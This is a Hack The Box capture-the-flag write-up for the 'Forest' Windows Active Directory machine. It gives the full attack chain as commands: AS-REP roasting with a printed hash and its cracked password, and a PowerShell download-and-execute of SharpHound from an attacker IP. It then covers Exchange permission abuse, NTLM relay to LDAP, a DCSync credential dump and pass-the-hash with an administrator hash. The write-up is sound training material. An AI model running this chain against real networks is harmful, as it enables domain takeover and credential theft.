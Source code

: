 ```yaml
---
layout: post
title: Forest HTB
categories: [HTB, Windows, AD]
excerpt: Active Directory windows box abusing exchange as follows
published: false
---
```


# Forest 
- [Forest](#forest)
  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [User](#user)
  - [PrivEsc](#privesc)
  - [Root](#root)
## Enumeration 
[Nmap-file](Forest--Enum.txt)

Based on the name of the box I figured it had something to do with active directory. Running enum4linux against the host gave a list of users one of which was a service account

![](../img/2019-11-07-15-25-49.png)

Using this service account we can use impacket to find any hashes for this user

    python /root/impacket/examples/GetNPUsers.py HTB/svc-alfresco -dc-ip 10.10.10.161 -no-pass
    Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB:70e1707a1f9d2a76c0481edd3876dfc4$9a0d6b38b42019f07106ed3a07b38c7b7279371f45b7cd6f663b4e1988fdcea71b3bafb296be917aeee74c162841487b04caf5bb8e3324413bc8b1d5c33943b24cdfa4cf8f761cc71d8aaefc7a4f4d4d0cb4d6bf741093d0b86339ae66cac63af74d7ae0c938a972bf446487e0ca6f25618020585badd304766f03dcad72a33389a3a6871c9a3837419365f4f03c804280f024fdca7c8d329abffd475827ddb43b29a1cce152b8e54340d9231ec9b28f03192012e9aff804d17d324e28634971a41d34aab4199712af379938d091e31e31b22a043e293224c89aa8967493cee4

Cracking this hash using john we get *s3rvice*


## Exploits - Work
We now have an account we can use to access the server using Evil_Winrm. After connecting to the server it is time to enumerate the domain for what groups and permissions svc-alfresco has.

![](../img/2019-11-07-15-34-30.png)

Time for bloodhound, bring on the hounds!

    iex (new-object net.webclient).DownloadString('http://10.10.15.xx/BloodHound/Ingestors/SharpHound.ps1')
    Invoke-Bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice

![](../img/2019-11-07-15-36-59.png)

Bloodhound shows a known vulnerability path for exploitation - [Abusing Exchange](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

I added svc-alfresco to the "Exchange Windows Permissions" group.

    net group "Exchange Windows Permissions" svc-alfresco /ADD

![](../img/2019-11-07-15-40-56.png)

Now all is set up for privesc....

## PrivEsc

With the svc-alfresco account in the right group I used the impacket tool 'nltmrelayx'.

    python ntlmrelay.py -t ldap://10.10.10.161 --escalate-user svc-alfresco

![](../img/2019-11-07-15-44-31.png)

Browsing to the localhost in firefox the incoming credentials are relayed to the DC and the accounts privileges escalated. 

All that is left is dumping credentials using DCSYnc attack with secretsdump

    python secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc

![](../img/2019-11-07-15-46-11.png)

Boom! use the administrator hash to connect to the server as admin
    python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161

![](../img/2019-11-07-15-47-23.png)

